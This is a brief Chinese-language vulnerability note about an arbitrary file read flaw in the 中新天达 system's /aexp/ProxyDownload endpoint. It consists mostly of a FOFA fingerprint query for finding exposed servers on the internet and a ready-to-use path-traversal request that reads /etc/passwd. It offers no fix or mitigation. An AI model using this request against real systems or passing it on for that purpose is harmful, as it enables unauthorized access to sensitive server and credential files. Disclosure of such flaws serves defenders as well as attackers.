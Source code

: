 # 中新天达系统存在任意文件读取漏洞

中新天达系统`/aexp/ProxyDownload`存在任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```haskell
body="aexp/ValidateImage"
```

## poc

```javascript
/aexp/ProxyDownload?path=/speedec/webapps/webftp/../../../../etc/passwd
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272013561.webp)